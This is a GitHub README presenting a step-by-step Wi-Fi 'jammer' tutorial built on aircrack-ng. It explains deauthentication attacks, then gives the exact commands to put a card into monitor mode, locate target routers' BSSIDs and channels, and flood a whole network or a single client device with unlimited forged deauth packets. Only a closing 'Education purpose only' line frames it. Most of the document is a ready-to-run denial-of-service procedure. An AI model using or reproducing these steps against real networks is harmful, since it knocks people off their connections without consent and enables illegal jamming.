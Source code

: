 # wifi-jammer
wifi jammer using aircrack-ng without any external wifi adapters. If you looking for an automated script head over to my another repo [here](https://github.com/mtm-x/wifi-jammer-script)
# What is deauth attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to jam. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect.
# Getting started 
Install [aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) on your machine and make sure your wifi card supports monitor mode (your in-build wifi card is enough if it supports monitor mode)

```
sudo apt install aircrack-ng
```

# Jamming
### Monitor Mode
1. type `iwconfig` in your terminal

   ![Screenshot_20240715_183247](https://github.com/user-attachments/assets/d5687b2f-ad30-4eb3-a068-455e6f43dde8)


In this instance, my wireless card is called wlan0.

2. Now run 

```
sudo airmon-ng start wlan0
```
where wlan0 is your network card. This will put your card into monitor mode which allows the card to monitor all traffic on the network.


![2](https://github.com/mtm-x/wifi-jammer/assets/88881685/02ea0b7a-0e36-4273-a1af-f2b22535df48)

as you can see my wifi card is now in monitor mode


3. You will need to run `iwconfig` again because after switching to monitor mode it will change your network card name. In most cases it changes it to mon0 but in mine it’s changed to wlan0mon.

   ![3](https://github.com/mtm-x/wifi-jammer/assets/88881685/db4ac485-2cd4-4b18-92d8-ee8afd7a4408)

4. Now run


   
```
sudo airodump-ng wlan0mon
```


![4](https://github.com/mtm-x/wifi-jammer/assets/88881685/77d64c1c-b02f-489d-84f6-c23a376558d9)

This is every single router in range. Wait for some moments and once you find your target Press `ctrl+c` to stop. Now we just gonna deauth my router named victim.

We want to take note of 2 things here:

    The BSSID (mac address) of the router
    The Channel(CH) of the router


In my case the channel is 4 and copy the corresponding bssid 


5. Now run the following command


```
sudo airodump-ng wlan0mon --bssid [routers BSSID here] -c [routers channel here]
```

-c for channel . 

![5](https://github.com/mtm-x/wifi-jammer/assets/88881685/8df5a9ea-d57e-4339-829f-383b5fe1d267)

now it shows like this. Press `ctrl+c` to stop.

6. now run

```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] wlan0mon
```


The 0 represents an infinite amount of deauth attacks. If you wanted to only run 5 deauth attacks you’ll change this to 5.


![6](https://github.com/mtm-x/wifi-jammer/assets/88881685/a7fc9438-6c52-4d6a-9048-ee2031cbf268)


Press `ctrl+c` to stop.


Now most of the devices connected to the router 'victim' will be disconnected. Connected devices try to reconnect to the router 'victim' but again it will be disconnected. But some of the devices might not get disconnect from the wifi router( Samsung devices ). In this situations you can just do deauthenticate specific device alone rather then sending deauth packets the whole wifi router. For instance imagine 2 devices connected to the router Victim you can just send deauthentication packets to one device and knock that device from being connected to the router Victim.


For specific device attack just repeat from step 4 and make changes in the final 6th step as follows


```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] -c [DEVICES MAC ADDRESS] wlan0mon
```

Devices mac address can be found under the station coloumn. Bascially all the devices connceted to the wifi router Victim will be shown here. 

![Screenshot_20240715_180618](https://github.com/user-attachments/assets/f7dcb7ba-6850-4aa6-a745-9dfa3050d1c1)



## Managed Mode

After the attack put your wifi card in managed mode in order to use wifi in your pc 

1. Run

```
sudo airmon-ng stop wlan0mon  
```

That's it 

Education purpose only


   






